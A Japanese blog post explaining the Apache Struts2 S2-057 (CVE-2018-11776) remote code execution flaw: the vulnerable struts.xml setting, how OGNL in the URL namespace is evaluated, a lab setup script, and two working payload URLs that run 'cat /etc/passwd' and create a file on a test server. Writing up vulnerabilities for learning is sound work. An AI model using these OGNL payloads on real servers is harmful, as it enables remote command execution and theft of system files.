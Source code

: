 ```yaml
---
layout: post
title:  "S2-057 CVE-2018-11776"
date:   2018-08-24
permalink: /security/:title
categories: Security
tags: Struts2 S2-057 CVE-2018-11776
excerpt: Struts2のRCE脆弱性の解説とハンズオン
mathjax: false
---
```


* content
{:toc}

このポストは
S2-057を発見したLGTMのリサーチャーであるMan Yue Moと、
githubにPoCを公開したリサーチャーのjas502nの情報にもとづいて書かれています。
詳細については文末を確認してください。

## 脆弱性の概要

### 脆弱な設定

struts.xmlに以下の脆弱な設定が記述されている場合、受け取ったHTTPリクエストに含まれるEL式やOGNL式を無害化できず、任意のコマンドを実行される可能性があります。
struts.xmlからincludeされている各xmlも同様に脆弱性の原因となります。

- actionタグもしくはurlタグを含むpackageタグにnamespaceの指定が無い

**脆弱性が有るxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

**脆弱性が無いxml**
```xml
<struts>
  <package name="actionchaining" extends="struts-default" namespace="/hoge">
    <action name="actionChain1" class="org.apache.struts2.showcase.actionchaining.ActionChain1">
      <result type="redirectAction">
        <param name="actionName">register2</param>
      </result>
  </package>
</struts>
```

### 想定される攻撃ベクタ

- リクエストされるURLに`%{`もしくは`${`が含まれる

  **例1**
  http://localhost/app/${1+1}/index

  **例2**
  http://localhost/app/%{(1+1)}/index

  *URLエンコードされている可能性があります*

  http://localhost/app/%24%7B1%2B1%7D/index

  http://localhost/app/%25%7B1%2B1%7D/index

## 仕組み

### Struts2の基本

HTTPリクエストに応じて適切なActionクラスを呼び出すためにActionProxyクラスが使われます。
ActionProxyクラスの基本動作はstruts.xmlに記述されたactionタグによって定義され、受け取ったHTTPリクエストに応じて具体的な動作が決定されます。

以下の例ではhogeに対してSampleClassがマッピングされています。
この状態でhttp://localhost/app1/hoge.actionにアクセスするとSampleClassが呼び出された後にhttp://localhost/app1/index.jspが表示されます。
ActionProxyクラスがURL文字列を解析してSampleClassクラスを呼び出す事によりこの動作が実現されます。

```xml
<struts>
  <package name="test" extends="struts-default" namespace="/app1">
    <action name="hoge" class="SampleClass">
      <result type="dispatcher">
        <param name="actionName">/index.jsp</param>
      </result>
    </action>
  </package>
</struts>
```
解析された文字列からクラスを呼び出す際にOGNLが使われます。
OGNLは文字列をプログラムコードとして解釈実行できるため脆弱性の温床になる可能性があります。
安全に使うためにはプログラマが意図した文字列だけを受け取るような仕組みが必要です。

### 脆弱性

今回発見された脆弱性はnamespaceを判断する機能が悪用されたものです。
packageタグにnamespace属性が指定されていない場合はURLから読み取った/app1という文字列からnamespaceが判定されます。
この時OGNLが利用されるために以下のようなURLを使ったコードが実行可能になります。

`http://localhost/app1/${1+1}/hoge.action`

- サーバは localhost
- action は hoge.action
- namespace は /app1/${1+1} ←これがOGNLに渡される

## 環境構築

jas502nのSt2-057はStruts2.2.3.1でないとRCEが成立しません。
今回問題となっているStruts2.3およびStruts2.5ではシンプルな数値計算しか行えずjavaのメソッド呼び出しには失敗するためです。
そういった意味ではjas502nのSt2-o57には改善の余地があります。
しかし2018.08.24時点で唯一のPoCであり数値計算が出来る以上はRCEの成立まであと一歩の可能性があるという事で動作確認をしていきます。

やるべきことは全てSt2-057/README.mdに書いてあります。
今回はそれらの手順を読み解く必要もなく暗黙の了解を知らなくても良いスクリプトを作りました。
VirtualBoxにCentOS7_minimalを新規インストールしてスクリプトを使ってください。
環境がプロキシ配下にある場合はプロキシ設定もしてください。

### プロキシ設定
必要に応じて設定してください。

```bash
cat > /etc/profile.d/proxy.sh < END
PROXY='proxy.sample.local:8080'
export http_proxy=$PROXY
export HTTP_PROXY=$PROXY
export https_proxy=$PROXY
export HTTPS_proxy=$PROXY
END
source /etc/profile

mkdir -p /etc/systemd/system/docker.service.d
cat > /etc/systemd/system/docker.service.d/proxy.conf < END
[Service]
Environment="HTTP_PROXY=http://proxy.sample.local:8080/" "HTTPS_PROXY=https://proxy.sample.local:8080/"
END
systemctl daemon-reload
```

### Struts2
version2.2.3.1を使います。

```bash
curl -LO  https://gist.github.com/ox0xo/17673b22fc3fa3260be4eab8687be5e5/raw/ac5c01caf6acbcf5376dfb48316ad31d14d41e9d/s2-057.sh
chmod +x s2-057.sh
./s2-057.sh
```

## PoC

**サーバの/etc/passwdを読み取る**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27cat /etc/passwd%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29.getInputStream%28%29%2C%23b%3Dnew%20java.io.InputStreamReader%28%23a%29%2C%23c%3Dnew%20%20java.io.BufferedReader%28%23b%29%2C%23d%3Dnew%20char%5B51020%5D%2C%23c.read%28%23d%29%2C%23sbtest%3D@org.apache.struts2.ServletActionContext@getResponse%28%29.getWriter%28%29%2C%23sbtest.println%28%23d%29%2C%23sbtest.close%28%29%29%7D/actionChain1.action
```
**サーバ上に/tmp/this_server_was_hackedを作成する**
```
http://localhost:8080/st2231/%24%7B%28%23cmd%3D%27touch /tmp/this_server_was_hacked%27%2C%23_memberAccess%5B%22allowStaticMethodAccess%22%5D%3Dtrue%2C%23a%3D@java.lang.Runtime@getRuntime%28%29.exec%28%23cmd%29%29%7D/actionChain1.action
```
## 参考

[Man Yue Mo: CVE-2018-11776: How to find 5 RCEs in Apache Struts with Semmle QL](https://lgtm.com/blog/apache_struts_CVE-2018-11776)

[jas502n: St2-057 在线靶机环境，Enjoy！](https://github.com/jas502n/St2-057/blob/master/README.md)
